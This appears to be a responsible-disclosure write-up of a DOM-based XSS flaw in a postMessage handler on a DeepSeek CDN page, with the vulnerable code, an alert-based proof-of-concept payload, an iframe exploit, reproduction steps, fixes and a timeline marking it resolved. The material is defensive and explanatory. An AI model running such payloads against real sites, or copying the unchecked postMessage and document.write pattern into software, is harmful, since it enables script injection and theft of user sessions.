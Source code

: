 ### **DOM-Based XSS Vulnerability Disclosure: DeepSeek.com**

#### **Summary**
During routine analysis, a DOM-based Cross-Site Scripting (XSS) vulnerability was identified on DeepSeek's CDN endpoint: `https://cdn.deepseek.com/usercontent/usercontent.html`. The vulnerability stems from improper handling of `postMessage` events, allowing an attacker to inject malicious scripts into the document context without proper origin validation or input sanitization.

---

#### **Affected URL**
`https://cdn.deepseek.com/usercontent/usercontent.html`

---

#### **Vulnerability Details**
The `postMessage` implementation on the affected endpoint processes messages without verifying their origin or properly sanitizing input. The following code snippet illustrates the root cause of the issue:

```javascript
window.addEventListener("message", (e) => {
    const keys = Object.keys(e.data);
    if (keys.length !== 1) return;
    if (!e.data.__deepseekCodeBlock) return;

    document.open();
    document.write(e.data.__deepseekCodeBlock);
    document.close();

    const style = document.createElement("style");
    style.textContent = "body { margin: 0; }";
    document.head.appendChild(style);
});
```

The function directly writes any `__deepseekCodeBlock` payload into the document using `document.write`, bypassing essential security measures such as:
- **Origin Validation**: No check to ensure the `postMessage` event originates from a trusted source.
- **Input Sanitization**: No filtering or escaping of HTML/JavaScript content in the payload.

---

#### **Proof of Concept (PoC)**

##### **Payload:**
The following `postMessage` payload can exploit the vulnerability to execute arbitrary JavaScript:
```javascript
postMessage(
    { __deepseekCodeBlock: '<script>alert(origin)</script>' },
    "*"
);
```

##### **Exploit Code:**
For easier testing, an iframe-based PoC was created to demonstrate the issue:
```html
<iframe
    width="600px"
    height="600px"
    src="https://cdn.deepseek.com/usercontent/usercontent.html"
    onload="this.contentWindow.postMessage( ({ __deepseekCodeBlock: '<script>alert(origin)</script>'}) ,'*')"
>
</iframe>
```

##### **Impact:**
When this payload is executed:
1. The browser processes the malicious payload.
2. An alert box is displayed showing the `origin`, confirming the ability to inject and execute arbitrary JavaScript.

---

#### **Steps to Reproduce**
1. Open `https://cdn.deepseek.com/usercontent/usercontent.html` in your browser.
2. Open the browser console and execute:
   ```javascript
   window.postMessage(
       { __deepseekCodeBlock: '<script>alert(origin)</script>' },
       "*"
   );
   ```
3. Alternatively, save and load the provided iframe-based exploit code in a browser.

---

#### Recommendations
1. **Validate Message Origin**: Ensure that the `postMessage` event's `origin` matches `https://cdn.deepseek.com`:
   ```javascript
   window.addEventListener("message", (e) => {
       if (e.origin !== "https://cdn.deepseek.com") return;

       // Handle the message securely
       const data = e.data;

       // Example: Sanitize and insert content
       if (data && data.__deepseekCodeBlock) {
           const sanitizedContent = DOMPurify.sanitize(data.__deepseekCodeBlock);
           const codeBlock = document.createElement("pre");
           codeBlock.textContent = sanitizedContent;
           document.body.appendChild(codeBlock);
       }
   });
   ```

2. **Sanitize User Input**: Use a library like **DOMPurify** to sanitize the HTML content before inserting it into the DOM. This helps prevent XSS attacks:
   ```javascript
   const sanitizedContent = DOMPurify.sanitize(e.data.__deepseekCodeBlock);
   ```

3. **Avoid `document.write`**: Replace `document.write` with modern DOM manipulation methods:
   ```javascript
   const codeBlock = document.createElement("pre");
   codeBlock.textContent = sanitizedContent;
   document.body.appendChild(codeBlock);
   ```

---

#### **Timeline**
- **Date of Discovery**: January 31, 2025, 7:45:00 PM CST (Central Standard Time)
- **Reported To DeepSeek**: Yes
- **Acknowledgment**: Resolved
- **Patch Status**: Updated

---

#### **Impact Assessment**
This vulnerability allows attackers to execute arbitrary JavaScript in the context of `cdn.deepseek.com`. Potential impacts include:
- Theft of sensitive user data (e.g., cookies or session tokens).
- Defacement or injection of malicious content.
- Further exploitation of users accessing the compromised page.


